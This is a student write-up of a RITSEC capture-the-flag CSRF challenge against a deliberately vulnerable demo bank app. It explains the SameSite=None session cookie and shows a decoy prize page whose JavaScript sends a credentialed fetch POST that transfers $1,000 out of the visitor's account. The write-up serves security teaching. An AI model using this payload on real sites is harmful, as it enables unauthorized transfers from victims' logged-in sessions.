# RITSEC Week 9 CSRF Exploit

A writeup for the Hard challenge of Week 9 (Advanced Web) demo.

The challenge:

> For this challenge, I want you guys to go to https://dsb.victorzhou.com/login Perform a CSRF attack and send _[Tech lead]_ and/or _[Junior Tech lead]_ a writeup about what you did and what you learned.

## The Bank Web App

The login to our bank app at https://dsb.victorzhou.com/login.



This is our default bank UI.



### Our test transfer

When we go to make a transfer, we use the UI like so:



And if we take a look in the dev tools, we can see the `POST` request that it sends:





### Session token

When we log into the site, it sets a session token in the cookies, but there's a big no-no... setting the `Same-Site` to `None` allows us to make requests with this cookie from other pages. This means we can bypass authentication by using our already logged in session.



## The exploit

Here's our website for the exploit:



We have flashing lights and everything!

> If you want to run the site yourself, ensure you have NodeJS installed and then run:

```
cd exploit
npm install
npm start
```

Wow! We won $1,000! However, the button actually has some JS linked to it:

```js
const params = new URLSearchParams("amount=1000&description=xXx_GetHaxed_xXx&to=Haxors");

function claim() {
  fetch("https://dsb.victorzhou.com/transfer", {
    method: "post",
    body: params,
    credentials: "include", // sends the session cookie with our request to bypass authentication
    mode: "no-cors",
  });
}
```

This request actually works, as we can see:





And if we go back to our bank, **_we have been hacked!!!!_**



## Notes

> I use Brave browser, and it blocks third-party cookies by default to avoid ad tracking info. However, this breaks our exploit, so we need to go allow `localhost` so use third-party cookies so it can send the `session` cookie.


